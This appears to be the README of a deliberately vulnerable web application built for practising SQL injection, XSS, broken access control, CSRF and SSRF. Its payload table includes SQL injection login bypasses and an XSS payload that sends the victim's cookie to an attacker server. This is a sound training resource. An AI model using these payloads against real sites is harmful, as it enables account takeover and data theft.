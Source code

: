 ## (VWA) Vulnerable Web Application 🚀

That application demonstrates top 5 (**SQli, XSS, Broken Access Control, CSRF, SSRF**) critical web vulnerabilities. You can run and test them out!

_The whole project consist of mini projects with each vulnerability_

P.S: I tried not to use any databases for simpler and faster installation but for some vulnerabilities it was required such as: **SQli**

---

## Quick Installation

(Go to folder with mini project and do **npm i**)

```plaintext
cd VWA/sqli/1
npm i

cd VWA/xss/1
npm i

cd VWA/xss/hackerServer
npm i
```

If you want to test SQli you need to create **postgresql** database with that credentials

![](https://33333.cdn.cke-cs.com/kSW7V9NHUXugvhoQeFaf/images/bacbbf3d5f416e47b3d1f8b3c3ac4e537c5457ba8868a574.png)

---

## Payloads

| Vulnerability | Payload | Where to Type | What it do |
| --- | --- | --- | --- |
| SQli | ' OR '1' = '1 | Password field | Allow to get all users |
| SQli | admin' -- | Password field | Allow to login only by username |
| XSS | \<svg onload=alert(1)> | PostInfo field | Simple alert |
| XSS | \<svg onload='var i = new Image(); i.src="http://localhost:3001/acceptCookie?cookie="+btoa(document.cookie);'> | PostInfo field | Allow to send user cookie to **hackerServer** website |
| Broken Access Control | Any logged in user can edit **isAdmin** cookie parameter | DevTools Application Cookie | Get access to admin page |
| CSRF | Run hacker server | Send hacker server url to logged in user | Allow hacker make a post on the website if user click the link |
| SSRF | Change hidden input value to **hackerServer** | Show products input | Allow make requests from website server |

---

## To-Do

*   [x] SQli vuln.
*   [x] XSS vuln.
*   [x] Broken Access Control vuln.
*   [x] CSRF vuln.
*   [x] SSRF vuln.
